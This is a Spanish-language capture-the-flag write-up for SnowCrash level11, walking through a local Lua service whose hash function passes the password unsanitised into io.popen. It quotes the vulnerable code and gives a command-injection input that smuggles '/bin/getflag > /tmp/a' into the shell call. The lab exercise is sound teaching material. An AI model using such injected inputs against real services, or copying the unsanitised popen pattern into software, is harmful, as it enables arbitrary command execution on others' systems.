 - Tenemos un script en lua
- cat level11.lua tenemos un script que parece abrir una conexion en 127.0.0.1:5151
- comprobamos si está en en ejecucion
level11@SnowCrash:~$ nc -vz 127.0.0.1 5151
Connection to 127.0.0.1 5151 port [tcp/pcrd] succeeded!
- Vemos que está en funcionamiento
- Nos conectamos:
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: 1234
rf nope..
- Investigamos el script
- Vemos que el script acepta una conexion, solicita una password, la pasa por la funcion hash que retorna un sh1 
- Luego comprueba con un if si el hash que retorna la funcion coincide con un hash
- Pero el if o el else solo muestra unas cadenas, es un rabbit hole
- El vector de atacque está en la funcion hash(pass)
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
- io.popen ejecuta un comando del sistema
  prog = io.popen("echo "..pass.." | sha1sum", "r")
- En este caso se ejecutaría un echo "{pass}" | sha1sum
- Es posible poder ejecutar un comando arbitrario por medio de in inllección
- necesitamos que ejecute /bin/getflag > /tmp/a 
- Si en cando nos pide la password insertamos `; /bin/getflag > /tmp/a` en la funcion hash nos quedaria:
io.popen("echo " ; /bin/getflag > /tmp/a " | sha1sum", "r")
- Luego podriamos ver el resultado en /tmp/a



